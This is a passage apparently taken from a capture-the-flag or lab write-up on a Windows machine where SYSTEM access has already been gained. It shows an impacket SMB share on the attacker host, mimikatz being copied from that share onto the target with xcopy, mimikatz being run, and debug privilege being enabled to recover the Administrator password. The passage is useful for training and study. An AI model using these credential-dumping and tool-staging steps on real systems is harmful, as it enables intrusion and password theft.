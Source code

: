 ```
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Extra
---

Only to have some fun, lets download [mimikatz](https://github.com/gentilkiwi/mimikatz) on the target and try to find the Administrator password.

First start a SMB share on the folder where mimikatz is located.
```
$ cd /usr/share/windows-resources/mimikatz/x64/
$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the target, copy it to a local folder.
```
C:\Windows\system32>xcopy \\10.10.14.12\share\mimikatz.exe C:\Users\Administrator\Desktop\
\\10.10.14.12\share\mimikatz.exe
1 File(s) copied
```

Then execute it.

```
C:\Windows\system32>C:\Users\Administrator\Desktop\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

Enable debug.
```
mimikatz # privilege::debug
Privilege '20' OK
```
